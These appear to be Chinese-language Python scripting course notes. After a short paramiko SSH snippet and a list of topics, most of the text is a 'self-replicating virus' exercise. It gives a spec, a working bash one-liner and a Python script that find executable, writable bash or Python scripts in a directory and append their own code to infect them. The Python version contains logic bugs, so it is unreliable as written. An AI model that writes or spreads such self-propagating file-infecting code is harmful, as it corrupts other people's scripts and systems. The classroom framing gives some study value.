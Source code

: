```python
    s.connect(hostname,port,username,pkey=key)  
    stdin,stdout,stderr = s.exec_command('df -h')  

    print stdout.read()  
    print stderr.read()  
    s.close()
```

## python 脚本实战
### for循环9*9
### 自定义模块，加载模式，使用模块的方法，数据（__name__）
### 使用subprocess模块完成病毒自我复制
### 使用subprocess模块完成批量添加用户
### 虚拟环境的搭建，激活和退出；第三方包的安装
---

病毒：（bash、python）
1. 判断当前病毒是否已经在运行，如果是，那么我就不再运行
2. 病毒感染对象为bash|python脚本(file )(Python script|Bourne-Again shell script)
3. 可执行的可写的[ -w file -a -x file ]
4. 感染病毒的脚本执行的时候会额外输出"I am evil！"
5. 病毒能够自我复制
6. 如果已经被感染，就不再感染
```shell
#!/bin/bash
if [ ! -f /tmp/.mybblock ];then touch /tmp/.mybblock; for i in `find /tmp/test/*` ; do grep "mybblock" $i &> /dev/null && continue ; file $i | grep "Bourne-Again shell script" &> /dev/null || continue ; [ -x $i -a -w $i ] || continue ; tail -n 1 $0 >> $i; done ; echo "hello,I am evil!"; rm -rf /tmp/.mybblock &> /dev/null ; fi
```

```python
#!/usr/bin/env python
import sys
from subprocess import *
test1=call('test -f /tmp/.mybb_lock', shell=True)
test2=call('touch /tmp/.mybb_lock',shell=True)
test_string=Popen('find /root/bash/*',shell=True,stdout=PIPE).communicate()[0]
test_list=test_string.split('\n')
del test_list[-1]
for file in test_list:
	file_string=open(file).read()
	if 'mybb' in file_string: continue
	test_wx=call(['test','-w',file,'-a','-x',file])
	if test_wx != 0 : continue
	test_python1=Popen(['file',file],stdout=PIPE)
	test_python2=Popen(['grep','Python script'],stdin=test_python1.stdout,stdout=PIPE)
	if test_python2.communicate()[0] == None:continue
	string=open(sys.argv[0]).read()
	infile_string=string.lstrip('#!/usr/bin/env python').lstrip()
	with open(file,'a') as infile:
		infile.write(infile_string)
print "I am superman"
file_del=call('rm -rf /tmp/.mybb_lock',shell=True)
```
